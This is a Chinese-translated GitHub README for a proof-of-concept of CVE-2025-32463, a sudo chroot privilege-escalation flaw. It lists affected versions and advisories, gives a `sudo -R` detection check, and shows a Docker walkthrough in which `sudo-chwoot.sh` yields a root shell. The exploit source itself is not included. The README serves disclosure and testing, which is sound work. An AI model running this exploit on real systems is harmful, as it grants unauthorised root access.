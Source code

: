 <translate-content># CVE-2025-32463 – sudo chroot（“chwoot”）PoC

本仓库提供了一个最小且可复现的环境，用于演示 `sudo` chroot 功能中的 **CVE‑2025‑32463** 权限提升漏洞。
- 该漏洞由 [Rich Mirch](https://www.stratascale.com/team/rich-mirch)（X 上的 [@0xm1rch](https://x.com/0xm1rch)）@ [Stratascale](https://www.stratascale.com/) 报告。
- 原始发布：[漏洞通告：Sudo chroot 权限提升](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)
- NVD：[CVE-2025-32463](https://nvd.nist.gov/vuln/detail/CVE-2025-32463)（CVSS 9.3）

---

## 受影响版本

> 大多数 Linux 发行版中，**sudo 1.9.14** 到 **1.9.17**（所有 p 版本）存在漏洞。

安全页面
- [Ubuntu](https://ubuntu.com/security/CVE-2025-32463)（CVSS 9.3）
- [Redhat](https://access.redhat.com/security/cve/cve-2025-32463)（CVSS 7.8）
- [SUSE](https://www.suse.com/security/cve/CVE-2025-32463.html)（CVSS 7.8）
- [Debian](https://security-tracker.debian.org/tracker/CVE-2025-32463)

---

## 内容

| 文件               | 目的                                                                               |
| ------------------ | ---------------------------------------------------------------------------------- |
| **Dockerfile**     | 构建带有漏洞的 **sudo 1.9.16p2** 及构建工具的 Ubuntu 24.04 镜像                   |
| **sudo‑chwoot.sh** | 演示概念利用，生成在 chroot 内的 root shell                                        |
| **run.sh**         | 辅助脚本，用于构建镜像（如有需要）并启动利用容器                                  |

---

## 快速漏洞检测</translate-content>
```bash
# Vulnerable sudo
pwn ~ $ sudo -R woot woot
sudo: woot: No such file or directory

# Patched sudo
pwn ~ $ sudo -R woot woot
[sudo] password for pwn:
sudo: you are not permitted to use the -R option with woot
```
## 在Docker容器中测试漏洞利用


```bash
# 1 – clone repo
$ git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git
$ cd CVE-2025-32463_chwoot

# 2 – build and run Docker image (tagged "sudo-chwoot")
$ ./run.sh

# 3 – run exploit in container (runs root command directly or drops you into a root shell)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh id
woot!
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh
woot!
root@f722d9182d1f:/# id
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
root@f722d9182d1f:/#
```
`run.sh` 传递 `--privileged` 和 `--rm` 给 Docker，因此当你退出时，容器会自动清理自己。

---

## 清理

完成后删除镜像：


```bash
docker rmi sudo-chwoot
```
---

## 参考资料

- Stratascale CRU 漏洞说明：[漏洞通告：Sudo chroot 提权漏洞](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)



---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-07-16

---